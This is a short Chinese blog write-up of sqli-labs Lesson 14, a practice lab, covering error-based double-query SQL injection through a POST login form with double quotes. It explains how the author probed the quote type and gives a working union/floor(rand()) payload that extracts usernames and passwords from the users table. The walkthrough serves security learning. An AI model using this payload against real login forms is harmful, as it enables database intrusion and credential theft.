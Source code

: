 ```yaml
---
title: sqli-labs-lession 14 POST双引号双注入变形
date: 2018-09-27 20:40:43
tags:
categories: sql注入
---
```

# sqli-labs-lession 14 POST双引号双注入变形 #
---

## 登录界面 ##

![1](/img/sql/Lesson-14/1.png)

## 注入过程 ##

和上一课其实原理一样,检查注入类型即可。

输入`'`号，被吃掉了。`')`也不行。来一个`"`

![2](/img/sql/Lesson-14/2.png)

把上一课的payload改个引号拿来用。

`xxx" union select count(*),concat((floor(rand(0)*2)),'--',(select concat(username,':',password) from security.users limit 0,1))a from information_schema.tables group by a#`

具体细节看Lesson-13

{% post_link sqli-labs-lession-13-POST单引号双注入变形 查看Lesson-13%}